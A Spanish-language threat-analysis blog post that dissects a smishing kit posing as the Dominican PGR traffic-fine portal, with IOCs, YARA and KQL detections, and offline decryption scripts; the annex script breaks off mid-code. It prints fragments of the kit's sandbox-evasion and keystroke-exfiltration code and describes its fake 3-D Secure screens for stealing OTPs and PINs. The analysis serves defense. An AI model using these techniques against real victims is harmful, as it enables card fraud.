


# Multas falsas de la PGR: disección de un kit de smishing que roba tarjetas en tiempo real

*Cómo una "multa de RD$ 430" esconde un panel operado por humanos 💀, tráfico cifrado por WebSocket y pantallas falsas de 3-D Secure — y cómo lo desciframos.*

Así empieza este primer capítulo de la serie **Analizando Phishings**. Todo comienza con una notificación que me llegó por SMS, donde supuestamente la **Procuraduría General de la República** me dice que tengo una multa de tránsito registrada y que debo consultar los detalles y pagarla.

Como ciudadano decente, sabia que habia un error, pues en mi conocimiento no me han puesto ninguna multa xd. Ademas, viendo la URL ya podemos darnos cuenta de que es una pagina falsa, tipico comportamiento de phishing.


Así que decidí iniciar una investigación del funcionamiento de esta página maliciosa. A continuación se detallan los resultados.

---

### Resumen rápido de los hallazgos

- **El señuelo:** un SMS avisa de una multa de tránsito pendiente con la Procuraduría General de la República (PGR) y enlaza a `multaspgr[.]top`, una copia del portal real `multas.pgr.gob.do`.
- **La trampa:** la "multa" es siempre la misma (exceso de velocidad, RD$ 430.85, 50 % de descuento si pagas "ya"). El objetivo real es la tarjeta.
- **Lo interesante:** no hay formularios ni `POST`. Cada tecla que escribe la víctima viaja **cifrada con AES por un WebSocket** a un operador que la está viendo **en vivo**, incluso si nunca pulsa "Enviar".
- **El golpe final:** mientras la víctima espera, el operador usa la tarjeta y le muestra pantallas falsas de "verificación bancaria" para robarle el OTP, el PIN o para que apruebe la operación en su app.
- **Evasión:** el kit detecta sandboxes y navegadores automatizados; si los detecta, ni siquiera se conecta a su servidor. Any.Run lo marcó como **"No threats"**.
- **Origen:** el código incluye comentarios en chino y restos de una plantilla usada contra Bulgaria. Encaja con el ecosistema de *Phishing-as-a-Service* conocido como **Smishing Triad**.
- **Lo desciframos:** las claves AES están fijas dentro del JavaScript. Publicamos los scripts para replicarlo.


## 1. La trampa: una multa pequeña y urgente

El dominio `multaspgr[.]top` imita al portal legítimo de consulta de multas (`multas.pgr.gob.do`): se quitan los puntos y el dominio gubernamental se cambia por `.top`, un TLD barato y muy usado en campañas masivas.

Página falsa:


Página real:


Se registró el **20 de septiembre de 2026** (registrado por GLOBAL ASSET DOMAINS INC., con datos ocultos) y ese mismo día ya tenía certificado TLS. Cuando lo analizamos, tenía **dos días de vida**: estas campañas rotan dominios constantemente para esquivar bloqueos.


Usando herramientas como https://web-check.xyz podemos realizar diversos análisis de la página y resumirlos en widgets. En este caso, nos permitió determinar cuándo se creó el dominio y cuándo expira. Normalmente, los dominios recién creados son más sospechosos porque suelen estar pensados para campañas de phishing de corta duración.





La víctima llega desde el enlace del mensaje a `hxxps://multaspgr[.]top/do/` y se encuentra una copia convincente del portal: logos de la PGR, el teléfono y el correo oficiales en el pie de página, la dirección del Centro de los Héroes y el logo del Ministerio Público.

El guion es simple:

1. **Consulta:** se pide solo el número de placa. Aparece "Buscando en el registro de infracciones..." durante dos segundos (no se busca nada: es un `setTimeout`).
2. **La multa:** sea cual sea la placa, el resultado es siempre el mismo:

| Campo | Valor |
|---|---|
| Infracción | Exceso de velocidad en zona urbana (radar) |
| Velocidad / límite | 57 km/h en zona de 50 km/h |
| Puntos en la licencia | 0 ("solo multa") |
| Importe | **RD$ 430.85** |
| Referencia | `AT-1234-2026` |
| Fecha | **Hoy menos 6 días** (se calcula en el navegador) |
| Descuento | 50 % si paga en 7 días |

El detalle de la fecha es fino: como la "infracción" ocurrió hace seis días y el descuento dura siete, a la víctima **siempre le queda un día**. Se añade una lista de consecuencias (intereses, cobro administrativo, registro de la deuda) y un importe bajo que no invita a pensárselo dos veces.

3. **El pago:** una página de "Pago seguro" con logos de bancos que pide titular, número de tarjeta, vencimiento y CVV.
4. **El cierre:** "Pago confirmado. Puede cerrar esta página". Una víctima tranquila no llama a su banco.

---

## 2. El truco está debajo: una SPA en Vue con un canal oculto

A primera vista, en el sandbox el sitio no hace nada sospechoso: descarga unos archivos JS, CSS, cuatro PNG y una fuente de Google.

Se realizó una simulación del sitio web como si se tratara de una víctima para analizar dinámicamente su comportamiento. Sabemos que es phishing, pero ahora queríamos saber algo más: ¿a dónde se envían esas credenciales? ¿Se almacenan localmente? ¿Hay un bot de Telegram? ¿Hay un C2 o algún canal externo?

Ningún formulario, ningún `POST`. Lo único raro es una conexión que queda abierta:

```
wss://multaspgr[.]top/console/?uuid=bb14bfdb-…&shopHost=&EIO=4&transport=websocket
```

Esa conexión es todo el phishing.

**El stack (detalles técnicos)**

- **Vue 3 + Vue Router**, empaquetado con **Vite** (assets tipo `/do/assets/CQ87CKpW.js` con hash de 8 caracteres).
- **Socket.IO v4** como canal con el servidor (`EIO=4`), con reconexión infinita y *fallback* a *long-polling*.
- **CryptoJS** para cifrar todo lo que sale y entra.
- Ofuscado con **obfuscator.io**: todos los strings del código están sustituidos por llamadas del tipo `b(70)` que leen de una tabla codificada.
- Detrás de **Cloudflare**, que oculta la IP real del servidor. Las IPs que se ven (`172.67.136.213`, `104.21.32.221`) son de Cloudflare y **no sirven para bloquear**.

Los módulos principales:

| Archivo | Contenido |
|---|---|
| `CQ87CKpW.js` | Rutas, textos de la multa, configuración de la campaña |
| `CQBmPQ5D.js` | El corazón: cifrado, conexión al C2, antibots, pantallas de 3-D Secure (262 KB una vez completo) |
| `NAwAzj5k.js` | Runtime de Vue y librerías |


Un detalle que vemos al desofuscar es que las rutas internas no se llaman "inicio" ni "pago", sino **`首页`** ("página de inicio"), **`资料页`** ("página de datos") y **`填信息页`** ("página para rellenar información"). **El desarrollador escribe en chino.**

---

## 3. Primero, esconderse de los analistas

Veamos ahora las técnicas de evasión y anti-análisis que usa la página para esconderse de sandboxes y analistas.



Un poco de contexto primero...

- **Anti-forense:** técnicas para que queden menos rastros o para que la evidencia sea difícil de interpretar después del hecho. En un sitio web se ve como datos cifrados en el navegador (`localStorage` con claves hasheadas y valores en AES), tráfico cifrado dentro del WebSocket e infraestructura de vida corta (dominios que duran días). El objetivo es que, al revisar el equipo o los logs, el analista no encuentre datos legibles.

- **Anti-debugging:** trucos para impedir o entorpecer que un analista inspeccione el código mientras se ejecuta, por ejemplo instrucciones `debugger` en bucle que congelan las DevTools, o comprobaciones que detectan si la consola está abierta.

- **Anti-análisis / anti-sandbox (evasión):** mecanismos para detectar que el entorno no es una víctima real (un sandbox, un navegador automatizado o una VM) y, en ese caso, comportarse de forma inofensiva. El más común en kits de phishing es la **ofuscación** del código (strings codificados, nombres sin sentido), que dificulta leerlo en frío.

**En este kit** encontramos ofuscación con *obfuscator.io*, detección de navegadores headless y automatizados (si la detecta, no se conecta al C2) y cifrado AES del tráfico y del almacenamiento local. **No encontramos trampas `debugger` clásicas**: la protección principal es de evasión, no de anti-debugging en sentido estricto.


Ahora si, vamos con el analisis...

El módulo principal incluye un **detector de navegadores automatizados** bastante completo. Antes de hacer nada, comprueba:

- `navigator.webdriver` y los rastros de Selenium, Puppeteer, Playwright y PhantomJS.
- Conexiones de Chrome DevTools Protocol (CDP).
- Render gráfico por software (SwiftShader, llvmpipe), típico de VMs.
- Si los emojis se dibujan, cuántas fuentes y plugins hay, idiomas, permisos, batería, WebRTC…

La idea es simple: detectar si quien interactúa es un humano o un sistema automatizado de análisis dinámico, como una sandbox o una herramienta automática.

Cada comprobación suma un puntaje. El código **CQBmPQ5D.js** sería el siguiente:
```js

var h3=h2();const h4=.31,h5=async()=>{try{const n=await h3[b(1097)](!1);return{isSpider:(n?.[b(1386)]??0)>=h4}}catch{return{isSpider:!1}}};async function h6({menu:n,routers:m},t,l){return!(await h5())[b(1476)]&&(eY(),a6(t),ad()),{router:f6(n,m)}}
```

Sin embargo, para analizarlo mejor y desofuscarlo, lo convertimos a una versión legible:

```js
const THRESHOLD = 0.31;
const check = async () => {
  try {
    const r = await HeadlessDetector.detectHeadless(false);
    return { isSpider: (r?.isHeadless ?? 0) >= THRESHOLD };
  } catch { return { isSpider: false }; }
};

async function init({ menu, routers }, config) {
  if (!(await check()).isSpider) {   // solo si NO parece un bot…
    initFormData(); applyConfig(config); connectSocket();   // …se conecta al C2
  }
  return { router: buildRouter(menu, routers) };
}
```

Si el navegador "huele" a automatización, la página se ve igual, pero **nunca abre el canal con el servidor**. Para un escáner no hay nada malicioso que ver. Eso explica el veredicto "No threats" de any.run de algunos analisis que realice.

El detector no es original: expone los mismos identificadores (`window.__headlessDetectionScore`, `data-headless-score`) que el proyecto open-source [headless-detector](https://github.com/andriyshevchenko/headless-detector). Los autores lo han incrustado tal cual.

---

## 4. El canal: un keylogger con AES

Supongamos que pasamos las pruebas de humanidad y anti-sandboxs y continuamos con el flujo de la pagina, ya introducimos los datos que pide el atacante, pero que sucede por debajo que el usuario no ve y como funciona?.

### 4.1 Cómo se conecta

Al cargar, el kit genera un UUID para la víctima, lo guarda (cifrado) en `localStorage` y abre el socket:

| Parámetro | Para qué sirve |
|---|---|
| `/console` | Ruta del servidor Socket.IO |
| `uuid` | Identifica a la víctima en el panel del operador |
| `shopHost` | Identificador de "tienda"; vacío en este caso. Apunta a un panel con varios clientes u operadores (hipótesis) |
| `backUrl` (en la configuración) | Si se define, **el socket se conecta a otro dominio**. El C2 no tiene por qué vivir en la landing |

### 4.2 Todo va cifrado… con la clave dentro del propio JS

Aqui es donde se pone interesante, porque cuando vemos todas las conexiones que realiza la WEB, no vemos peticiones externas, pero este ultimo si nos parece interesante:


Al analizar el trafico HTTP podemos ver una comunicacion mediante websocket y todo esta cifrado:


Cada mensaje viaja como un evento Socket.IO:

```
42["message","9J/UwM0nsmrdXqUVWny6zjo8nD559AWv58L4xtEANxJLMD1H…"]
```
Ese base64 es **JSON cifrado con AES-128-CBC y padding PKCS7**. El problema (para ellos) es que la clave y el IV están escritos en el código:

| Uso | Key | IV |
|---|---|---|
| Mensajes del WebSocket | `ZQMWLSPXJRDHKTNV` | `YFBCUENAGPQLXJWR` |
| Datos guardados en `localStorage` | `NLFRWBHXVQJTCPYK` | `DMAGSZEIOPQUNTVC` |

Al ser key e IV fijos, el cifrado es **determinista**: el mismo mensaje produce siempre el mismo texto cifrado. Por eso, en la captura, 83 de 88 mensajes empiezan con los mismos 32 bytes: son todos `{"event":"changleField","data":{…`. Los mensajes de error del módulo de cifrado también están en chino: `加密失败` ("falló el cifrado"), `解密失败` ("falló el descifrado").

El cifrado no protege nada frente a un analista; su función es que **un proxy, un IDS o un sandbox no vean datos de tarjeta en claro**.

Spoiler: Crearemos  nuestros propios scripts para descifrar esta comunicacion mas adelante...

### 4.3 Qué se envía

| Evento | Sentido | Cuándo | Qué lleva |
|---|---|---|---|
| `userSiteConfig` | Servidor → víctima | Al conectar | Monto, moneda, modo manual/automático |
| `changleField` *(sic)* | Víctima → servidor | **En cada tecla** y en cada cambio de página | Placa, titular, número de tarjeta, vencimiento, CVV… |
| `notice` | Víctima → servidor | Avisos al operador | `enterCardNumber` (empezó a escribir la tarjeta), `submitData`, `submitCode`… |
| `submitData` | Víctima → servidor | Al pulsar "Enviar" | Todo junto |
| `submitCode` | Víctima → servidor | En las pantallas de "verificación" | OTP, PIN o código |
| `operation` | Servidor → víctima | Cuando el operador decide | Rechazar, pedir un código, dar por completado |

`changleField` (una errata de *changeField*) es una buena huella del kit (SI, PORQUE LOS MALOS TAMBIEN SE EQUIVOCAN AL ESCRIBIR CODIGO XD). Y lo importante: **cerrar la página antes de pulsar "Enviar" no sirve de nada**. Los datos ya salieron, mientras escribes los datos que te pide el atacante, en tiempo real esto se envia hacia el atacante, asi que el solo hecho de intentarlo o probar varias tarjetas de credito aunque no le des a Enviar, ya el atacante vio todo.

Nota: Los datos descritos son de prueba usados para simular ser una victima. No, no son reales xd pero sirven para la demostracion.

---

## 5. Lo que vio el operador: el tráfico descifrado

Con las claves en la mano desciframos los 88 mensajes de la sesión de any.run (86 del navegador, 2 del servidor). Los datos de tarjeta eran de prueba y aparecen enmascarados.

```text
S->C  {"event":"userSiteConfig","data":{"unattended":"N","unattendedCountdown":10,"unattendedRouter":"success",…}}
C->S  {"event":"changleField","data":{"router":"首页"}}
C->S  {"event":"changleField","data":{"vehicleReg":"9998872"}}
C->S  {"event":"changleField","data":{"placa":"9998872"}}
C->S  {"event":"changleField","data":{"router":"Página de aviso"}}
C->S  {"event":"changleField","data":{"router":"Página de pago"}}
C->S  {"event":"changleField","data":{"cardHolder":"Va"}}
C->S  {"event":"changleField","data":{"cardHolder":"Varto"}}
C->S  {"event":"changleField","data":{"cardHolder":"Vartolomeo Santorriel"}}
C->S  {"event":"changleField","data":{"cardNumber":"5"}}
C->S  {"event":"notice","data":"enterCardNumber"}
C->S  {"event":"changleField","data":{"cardNumber":"53"}}
C->S  {"event":"changleField","data":{"cardNumber":"5360"}}
      … el número se completa dígito a dígito, con borrados y correcciones …
C->S  {"event":"changleField","data":{"expiryDate":"10/30"}}
C->S  {"event":"changleField","data":{"cvv":"***"}}
C->S  {"event":"submitData","data":{"placa":"9998872","cardHolder":"Vartolomeo Santorriel",
       "cardNumber":"352954******2979","expiryDate":"10/30","cvv":"***","code":"","pin":"",…}}
C->S  {"event":"notice","data":"submitData"}
S->C  {"event":"operation","data":{"status":"rejected",
       "args":"La tarjeta de crédito no es válida. Por favor, compruebe la fecha de emisión y el código CVV."}}
```

Tres cosas saltan a la vista:

- **`"unattended":"N"`:** el kit estaba en modo manual. Había **una persona al otro lado**, y el rechazo final lo decidió ella: para pedir otra tarjeta, o porque detectó que los datos eran de prueba.
- **Keylogging literal:** se ve el nombre formándose letra a letra y **cuatro números de tarjeta distintos** escritos, borrados y corregidos. Todos llegaron al operador.
- La página de datos personales (nombre, dirección, teléfono…) **se saltó**: el flujo configurado fue placa → multa → pago. Se activa por configuración.

---

## 6. El verdadero objetivo: saltarse el 3-D Secure

Con los datos de la tarjeta, el operador no espera. Mientras la víctima sigue mirando un *spinner*, **agrega la tarjeta a una billetera móvil (Apple Pay / Google Pay) o hace una compra**. El banco, correctamente, envía un código o una notificación a la víctima. Y aquí entra el panel: el operador le cambia la pantalla a un "3-D Secure" falso que pide justo lo que necesita.

El kit trae seis pantallas (los nombres internos, en chino, son del propio código):

| Ruta | Nombre interno | Qué pide |
|---|---|---|
| `/phoneCode` | `手机验证页` · verificación por móvil | Código SMS ("enviado a su número terminado en…") |
| `/emailCode` | `邮箱验证页` · verificación por correo | Código por email |
| `/pinCode` | `PIN验证页` · verificación PIN | El PIN de la tarjeta, el del cajero |
| `/appCode` | `APP验证页` · verificación en app | "Abra la app de su banco y apruebe la solicitud" |
| `/expressCvv` | `运通CVV验证页` · CVV de American Express | El código de 4 dígitos del frente |
| `/tempCustomCode` | `自定义验证码页` · código personalizado | Cualquier otro |



El operador controla el ritmo: puede **rechazar** la tarjeta ("este banco no está soportado, use otra") para conseguir una segunda, pedir **otro código** si el primero caducó, o cerrar con **"Pago confirmado"**. Si no hay nadie al panel, un **modo desatendido** (`unattended`, con cuenta atrás de 10 segundos) avanza solo.

La pantalla de la app bancaria es la más peligrosa: la víctima **autoriza con su propio dedo** la operación del atacante, convencida de que paga una multa.

---

## 7. ¿Quién está detrás?

**El código no sale de un repositorio público.** Es un kit propietario construido sobre piezas conocidas: Vue, Vite, CryptoJS, Socket.IO y el detector de headless open-source. Pero deja varias huellas:

- **Chino simplificado** en rutas, pantallas y errores.
- **`do_pgr_etc_vehicle_plate`**, la clave donde guarda la placa en `localStorage`: `do` es el país, `pgr` el organismo y **`etc`** es *Electronic Toll Collection*, el término chino para el peaje electrónico. Es una **plantilla de estafa de peajes reconvertida en multas**.
- **Clases CSS `kat-*`** (`kat-table-wrap`, `kat-row`…). **КАТ** es la policía de tráfico de Bulgaria.
- El formulario de datos personales pide **Número de Seguridad Social** y teléfono de **10 dígitos**: una plantilla de EE. UU. traducida.

La pista búlgara no es casual. En 2026 se documentó una campaña de multas falsas contra Bulgaria (МВР/КАТ) que usaba la ruta `/wd079_bg_etc_kat-obligations/`: la misma convención *país + organismo + `etc`*. Esa campaña se atribuyó públicamente al ecosistema **Smishing Triad** / **Lighthouse** ([xbz0n](https://xbz0n.sh/blog/smishing-triad-mvr-bulgaria)).

| | Este caso (RD) | Campaña Bulgaria (МВР/КАТ) | Kit JWR (Group-IB) |
|---|---|---|---|
| Señuelo | Multa de tránsito | Multa de tránsito | Peajes, envíos, tasas |
| Frontend | Vue 3 + Vite | Vue + Vite | Vue 2 |
| C2 | Socket.IO `/console`, AES-CBC con clave fija | WebSocket `/ws?token=` + HTTP | WebSocket `/webSocket/QT/…`, AES-CTR |
| Keylogging por tecla | Sí | Sí | Sí |
| Pantallas 3DS / app / PIN | Sí | Sí | Sí |
| Idioma del desarrollador | Chino | Chino | Chino |

**Nuestra lectura:**

- **Alta confianza:** kit de *smishing* de origen chino, multi-país, del ecosistema Smishing Triad.
- **Media confianza:** comparte linaje de plantillas con la campaña búlgara.
- **Sin determinar:** el protocolo del C2 no coincide con lo publicado para Lighthouse ni para JWR. Puede ser otra familia o versión, o un backend distinto que reutiliza plantillas. Recordemos que el Triad funciona como un **mercado** (desarrolladores de kits, operadores, *spammers*, vendedores de dominios), así que las plantillas circulan.
- No hay evidencia para ponerle nombre y apellido a un operador concreto.

---

## 8. Cómo lo desciframos (y cómo replicarlo)

Todo el proceso es **offline**: ningún script ejecuta el código del kit ni contacta con su infraestructura. Los tres scripts están completos al final del post.



**Necesitas:** Node.js ≥ 16, Python ≥ 3.8 con `pip install cryptography`, los JS **completos** (en any.run, el botón de descarga del contenido, no la vista previa, que trunca) y el export de los mensajes del WebSocket. Trabaja en una VM de análisis: los bundles son código malicioso.

### Paso 1: recuperar los strings

```bash
node deobf_strings.js CQBmPQ5D.js CQBmPQ5D.strings.tsv
# [+] 1559 strings | decodificador=b() offset=0 array=a()
```

*obfuscator.io* sustituye cada string por una llamada `b(N)` que lee de un array codificado en base64 con un **alfabeto no estándar** (minúsculas antes que mayúsculas). El script:

1. Localiza la función decodificadora `function b(n,m){n-=OFFSET;const t=a();…}`.
2. Aísla el array literal que devuelve `a()`.
3. Decodifica cada elemento: base64 con el alfabeto del ofuscador → `%XX` → `decodeURIComponent`, que recupera el UTF-8 con tildes y caracteres chinos.

El resultado es un diccionario `b(N) → string` para leer el código:

```text
b(18)  "NLFRWBHXVQJTCPYK"      b(54)  "/console"
b(20)  "AES"                   b(56)  "changleField"
b(23)  "CBC"                   b(70)  "ZQMWLSPXJRDHKTNV"
b(25)  "Pkcs7"                 b(71)  "YFBCUENAGPQLXJWR"
```

### Paso 2: encontrar las claves

```bash
python3 extract_keys.py CQBmPQ5D.js CQBmPQ5D.strings.tsv
# [+] Primitivas CryptoJS referenciadas: AES, CBC, MD5, Pkcs7
#     par #1  key='NLFRWBHXVQJTCPYK' (128 bits)  iv='DMAGSZEIOPQUNTVC'
#     par #2  key='ZQMWLSPXJRDHKTNV' (128 bits)  iv='YFBCUENAGPQLXJWR'
```

En el código minificado, CryptoJS recibe las claves así:

```js
// ofuscado (simplificado)
const af=b(70), ag=b(71), ah=c[b(15)][b(16)][b(17)](af), ai=c[b(15)][b(16)][b(17)](ag);
// con la tabla resuelta
const KEY = CryptoJS.enc.Utf8.parse("ZQMWLSPXJRDHKTNV");
const IV  = CryptoJS.enc.Utf8.parse("YFBCUENAGPQLXJWR");
// y se usa en el emisor del socket
socket.emit("message", CryptoJS.AES.encrypt(JSON.stringify(msg), KEY,
            { iv: IV, mode: CryptoJS.mode.CBC, padding: CryptoJS.pad.Pkcs7 }).toString());
```

El script busca las llamadas cuya resolución es `enc.Utf8.parse`, resuelve su argumento y agrupa cada key con su IV. Revisando dónde se usan: el **par #1** cifra el `localStorage` y el **par #2** los mensajes del socket.

### Paso 3: descifrar el tráfico

```bash
python3 decrypt_ws.py frames.txt --mask      # --mask oculta PAN, CVV y PIN
# 3   S->C  {"data": {"unattended": "N", …}, "event": "userSiteConfig"}
# 97  C->S  {"event": "submitData", "data": {…, "cardNumber": "352954******2979", "cvv": "***"}}
# [+] eventos: changleField=83, notice=2, operation=1, submitData=1, userSiteConfig=1
```

El script:

1. Se queda solo con los frames `42["message","…"]`. Socket.IO también envía `0` (handshake), `40` (conexión) y `2`/`3` (ping/pong), que no llevan datos.
2. Decodifica el base64. No hay prefijo `Salted__` porque CryptoJS recibe la clave como bytes, no como contraseña.
3. Descifra con AES-128-CBC y quita el padding PKCS7.
4. Parsea el JSON, marca la dirección del mensaje y, opcionalmente, enmascara datos sensibles.

Opciones: `--json` (JSON Lines) y `--key`/`--iv` para otros despliegues.

**Para otros despliegues del mismo kit:** busca la conexión con `EIO=4` a `/console/`, descarga completo el módulo que contiene la cadena `/console` (el nombre del archivo cambia en cada build), repite los pasos 1 y 2, y usa `--key`/`--iv`. Para comprobar un mensaje suelto sin scripts, en **CyberChef**: *From Base64* → *AES Decrypt* (Key e IV en UTF8, modo CBC).

**Límites:** si el operador activa `backUrl`, el socket irá a otro host. Si cambian la configuración del ofuscador (rotación del array o codificación RC4), habrá que adaptar el paso 1.

---

## 9. Indicadores de compromiso

**Red**

```text
multaspgr[.]top
hxxps://multaspgr[.]top/do/
wss://multaspgr[.]top/console/
Patrón URI:   /console/?uuid=*&shopHost=*&EIO=4&transport=*
Patrón URI:   /do/assets/[A-Za-z0-9_-]{8}.(js|css|png)
NS:           armando.ns.cloudflare.com + braelyn.ns.cloudflare.com   (pivote débil)
NO bloquear:  172.67.136.213, 104.21.32.221   (Cloudflare, compartidas)
```

**Archivos (este build)**

| Archivo | SHA-256 |
|---|---|
| `CQ87CKpW.js` | `7ba5dd8e6c786314a27ac7c16fcea48a7eff0bdc33fa08e0d7ce81daefd0a212` |
| `CQBmPQ5D.js` | `60c8ca23ccee7ef99d3e11cadd8df108689f0b63d23b48a413aab25d6cebdedc` |
| Certificado TLS | `2ec99f540c9966eed0e60d216a0c3f12b22d1ec48f9c6991d402468467357316` |

**Huellas del kit (sirven para otros despliegues)**

- Keys/IV AES: `ZQMWLSPXJRDHKTNV` / `YFBCUENAGPQLXJWR` y `NLFRWBHXVQJTCPYK` / `DMAGSZEIOPQUNTVC`
- Eventos Socket.IO: `changleField`, `userSiteConfig`, `submitData`, `submitCode`, `operation`
- `localStorage`: `t_config`, `t_form_data`, `do_pgr_etc_vehicle_plate`
- Scope IDs de Vue: `data-v-830bfd75`, `data-v-d3e51b0e`, `data-v-372c92b7`, `data-v-9f4207d6`, `data-v-07c50e0d`, `data-v-e16e8526`
- Clases CSS: `kat-table-wrap`, `kat-row--discount`, `pgr-search-loading`
- Strings: `手机验证页`, `PIN验证页`, `运通CVV验证页`, `加密失败`, referencia `AT-1234-2026`

---

## 10. Detección

**En el proxy o NDR:** un *upgrade* a WebSocket cuya URI contenga `/console/?uuid=`, `shopHost=` y `EIO=4`, sobre todo hacia dominios con menos de una semana de vida.

```kql
ProxyLogs
| where RequestURL has "/console/" and RequestURL has "shopHost=" and RequestURL has "EIO=4"
| summarize count(), make_set(SrcUser), min(TimeGenerated), max(TimeGenerated) by DestHost
```

**Búsqueda retrospectiva:** resoluciones DNS de `multaspgr.top` en tu organización. Cada una es una posible víctima.

**YARA** (sobre JS desofuscado, tráfico descifrado o despliegues sin ofuscar; en el bundle ofuscado estas cadenas están codificadas):

```yara
rule SmishKit_MultasPGR_SocketIO
{
  meta:
    description = "Kit de smishing con C2 Socket.IO /console y AES fijo (Multas PGR, RD)"
    date = "2026-09-23"
  strings:
    $k1 = "ZQMWLSPXJRDHKTNV" ascii
    $k2 = "YFBCUENAGPQLXJWR" ascii
    $k3 = "NLFRWBHXVQJTCPYK" ascii
    $e1 = "changleField" ascii
    $e2 = "userSiteConfig" ascii
    $e3 = "unattendedRouter" ascii
    $p1 = "do_pgr_etc_vehicle_plate" ascii
    $z1 = "手机验证页" utf8
    $z2 = "运通CVV验证页" utf8
  condition:
    3 of them
}
```

**Pivotes en urlscan.io:** `page.url:"/console/?uuid="`, o buscar los scope IDs de Vue en el DOM.

---

## 11. Qué hacer

- **Si recibiste el SMS:** la PGR no cobra multas por SMS. Consulta siempre en `multas.pgr.gob.do`, escribiendo tú la dirección.
- **Si escribiste tus datos, aunque no pulsaras "Enviar":** llama a tu banco ya, bloquea la tarjeta y revisa si se añadió a alguna billetera móvil. No te fíes del "Pago confirmado".
- **Bancos:** vigilen las altas de tarjetas en wallets justo después de estas campañas, y que el texto del OTP diga la acción real ("para agregar su tarjeta a Apple Pay") y no un genérico.
- **Equipos de seguridad:** bloqueen el dominio, carguen las reglas de arriba y busquen accesos pasados.
- **Takedown:** reporte a Cloudflare (abuse), al registrar y a Google Safe Browsing; notificación a la PGR y al CSIRT-RD.

---

## 12. Lo que queda abierto

- **La IP real detrás de Cloudflare:** pendiente de DNS histórico o de búsquedas en Censys y Shodan por favicon o hashes de las imágenes.
- **Si además filtra por país en el servidor:** el antibot confirmado es del lado del cliente.
- **El SMS original:** remitente, texto y acortador.
- **Dominios hermanos** con la misma huella (`/console/?uuid=` + `shopHost`).
- **Qué significa exactamente `shopHost`**, y si es un panel multi-cliente.
- **Las pantallas de 3-D Secure y el modo desatendido en acción:** están en el código, pero no se ejercitaron en la sesión analizada.

Si tienes muestras de otros despliegues o del SMS, nos encantaría compararlas.

---

## Referencias

- Sesión en any.run: https://app.any.run/tasks/fa8f80e6-8d90-4820-a5fa-cc95a526f171
- Portal legítimo de la PGR: https://multas.pgr.gob.do/consultas
- xbz0n, *Tracing a Smishing Triad Fake-Fine Campaign Targeting Bulgaria (МВР)*: https://xbz0n.sh/blog/smishing-triad-mvr-bulgaria
- Group-IB, *Smish. Click. Drained: Inside the Smishing Triad's Phishing Cockpit*: https://www.group-ib.com/blog/smishing-triad-outsider-jwr/
- SpyCloud, *YYlaiyu PhaaS Panel*: https://spycloud.com/blog/yylaiyu-chinese-phishing-as-a-service-panel/
- Silent Push, *Smishing Triad*: https://www.silentpush.com/blog/smishing-triad/
- Bitdefender "Operation Road Trap" (vía Escudo Digital): https://www.escudodigital.com/en/cybersecurity/fake-traffic-fines-sms-global-smishing-campaign-targets-drivers-worldwide.html
- headless-detector (open-source): https://github.com/andriyshevchenko/headless-detector
- Certificate Transparency (Cert Spotter): https://api.certspotter.com/v1/issuances?domain=multaspgr.top&include_subdomains=true
- Reporte de URLSCAN:  https://urlscan.io/result/01a0cfd9-045e-712b-aa9d-0395282d93fc/ : - - Reporte de web-check: https://web-check.xyz/check/multaspgr.top
- Reporte de URLquery: https://urlquery.net/report/7a2346c3-3890-4305-8a55-93f5d6d47842 - Analisis
---


## Anexo: scripts

### `deobf_strings.js`

Decodifica la tabla de strings de *obfuscator.io* (paso 1).

<details>
<summary>Ver código</summary>

```js
#!/usr/bin/env node
/*
 * deobf_strings.js — Decodifica la tabla de strings de un bundle ofuscado con obfuscator.io
 * (variante "stringArrayEncoding: base64").
 *
 * Uso:   node deobf_strings.js <bundle.js> [salida.tsv]
 * Salida: una línea por string -> "<llamada>\t<string decodificado>"  (ej.  b(18)  "NLFRWBHXVQJTCPYK")
 *
 * No ejecuta el código del kit: solo localiza el array literal y lo decodifica.
 */
const fs = require("fs");
const [, , inFile, outFile] = process.argv;
if (!inFile) { console.error("Uso: node deobf_strings.js <bundle.js> [salida.tsv]"); process.exit(1); }
const src = fs.readFileSync(inFile, "utf8");

// 1) Localizar la función decodificadora: function b(n,m){n-=0;const t=a(); ...
//    -> nombre (b), offset (0) y nombre de la función que devuelve el array (a)
const dec = src.match(/function ([\w$]+)\(([\w$]+),[\w$]+\)\{\2-=(\d+);const [\w$]+=([\w$]+)\(\)/);
if (!dec) { console.error("No se encontró la función decodificadora"); process.exit(2); }
const [, decName, , offsetStr, arrFn] = dec;
const offset = parseInt(offsetStr, 10);

// 2) Extraer el array literal de: function a(){const n=[ ... ];
const head = new RegExp(`function ${arrFn.replace(/\$/g, "\\$")}\\(\\)\\{const [\\w$]+=`);
const h = head.exec(src);
if (!h) { console.error(`No se encontró el array de ${arrFn}()`); process.exit(3); }
let i = h.index + h[0].length, depth = 0, q = null;
const start = i;
